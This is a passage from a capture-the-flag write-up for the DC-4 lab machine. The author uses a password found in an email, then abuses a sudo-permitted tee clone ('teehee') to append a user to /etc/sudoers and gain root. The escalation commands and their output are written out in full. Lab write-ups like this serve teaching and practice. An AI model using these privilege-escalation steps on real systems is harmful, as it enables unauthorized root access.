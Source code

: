 ```

Hi Jim,

I'm heading off on holidays at the end of today, so the boss asked me to give you my password just in case anything goes wrong.

Password is:  ^xHhA&hvim0y

See ya,
Charles
```
Now in fact, the message is saved to `jim`'s personal mailbox in /home/jim/mbox. And, we have new credentials: `charles:^xHhA&hvim0y`
```
jim@dc-4:~$ su charles
Password: 
charles@dc-4:~$ sudo -l
Matching Defaults entries for charles on dc-4:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charles may run the following commands on dc-4:
    (root) NOPASSWD: /usr/bin/teehee
charles@dc-4:~$ ls -l /usr/bin/teehee
-rwxr-xr-x 1 root root 38740 Apr  6  2019 /usr/bin/teehee
charles@dc-4:~$ file /usr/bin/teehee
/usr/bin/teehee: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=cc779c5a37fe07a78ea82a246199a7ff4e5c4ad8, stripped
```
SUID bit is set. Let's see what it does:
```
charles@dc-4:~$ teehee
hi
hi
redirect?
redirect?
charles@dc-4:~$ echo a | tee b
a
charles@dc-4:~$ ls
b
charles@dc-4:~$ cat b
a
```
Seems like `tee`. Also, `tee --help` and `teehee --help` were identical besides the name. We can use `sudo teehee` to write to any file, so why not add charles to the sudoers file? /etc/sudoers specifies user privileges for root like so: `root	ALL=(ALL:ALL) ALL`. 
```
charles@dc-4:~$ echo "charles  ALL=(ALL:ALL) ALL" | sudo teehee /etc/sudoers
charles  ALL=(ALL:ALL) ALL
charles@dc-4:~$ sudo -l
[sudo] password for charles: # ^xHhA&hvim0y
User charles may run the following commands on dc-4:
    (ALL : ALL) ALL
charles@dc-4:~$ sudo su
root@dc-4:/home/charles# id
uid=0(root) gid=0(root) groups=0(root)
root@dc-4:/home/charles# cd ~
root@dc-4:~# cat flag.txt 



888       888          888 888      8888888b.                             888 888 888 888 
888   o   888          888 888      888  "Y88b                            888 888 888 888 
```